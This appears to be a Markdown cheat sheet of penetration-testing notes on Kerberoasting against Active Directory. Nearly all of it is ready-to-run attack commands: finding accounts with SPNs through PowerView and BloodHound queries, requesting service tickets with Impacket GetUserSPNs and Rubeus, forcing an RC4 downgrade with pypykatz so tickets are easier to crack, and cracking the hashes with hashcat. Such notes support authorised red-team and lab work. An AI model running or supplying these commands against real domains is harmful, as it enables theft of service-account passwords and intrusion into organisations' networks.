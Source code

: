 # Kerberoasting

### Get kerberoastable users

 - Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

 - MATCH (u:User {hasspn:true}) RETURN u (Bloodhound cypher query)

 - MATCH (u:User {hasspn:true}), (c:Computer),p=shortestPath((u)-[*1..]->(c)) RETURN p (Bloodhound cypher query)

### Get hash (TGS)

    Impacket-GetUserSPNs -request -dc-ip DC_IP DOMAIN/USER:PASSWORD

    Rubeus kerberoast

### Allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

### Tools: Bloodhound, Invoke-Kerberoast.ps1, Kekeo, Rubeus, Hashcat

## Steps:

#### 1) 

    python3 Impacket-GetUserSPNs.py -dc-ip DC_IP DOMAIN/USER:PASSWORD

#### Insert Password:

#### 2) 

    python3 Impacket-GetUserSPNs.py -dc-ip DC_IP DOMAIN/USER:PASSWORD -request

#### 3) Optional: Find user with SPN in another domain through trust

    GetUserSPNs.py -dc-ip <DC_IP> -target-domain <target_domain> domain.local/user1:password

#### 4) Force RC4 downgrade even on AES enabled targets to obtain tickets more easy to crack:

    pypykatz kerberos spnroast -d domain.local -t <target_user> -e 23 'kerberos+password://domain.local\user1:password@<DC_IP>'

#### 5) 

    hashcat -a 0 -m 13100 SPN.HASH /path/to/wordlist.txt

# Do Kerberoasting
